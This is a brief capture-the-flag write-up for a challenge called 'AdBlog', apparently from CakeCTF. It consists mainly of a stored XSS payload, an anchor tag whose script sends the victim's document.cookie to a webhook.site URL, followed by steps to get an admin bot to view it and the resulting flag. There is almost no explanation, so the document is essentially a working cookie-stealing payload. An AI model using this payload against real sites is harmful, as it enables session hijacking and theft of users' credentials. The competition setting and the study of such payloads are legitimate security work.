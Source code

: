 # Write-up :AdBlog
* *1.Post a blog with that content :*
```javascript 
<a id=showOverlay href="cid:function xss() {document.location=`https://webhook.site/455fcac5-9c2c-4a81-990c-445705038802/?flag=${document.cookie}`}xss()"></a> 
```
* *2.go to report url and report the id of the blog where you put the payload*
* *3.get the flag!!*

**flag : CakeCTF{setTimeout_3v4lu4t3s_str1ng_4s_a_j4va5cr1pt_c0de}**



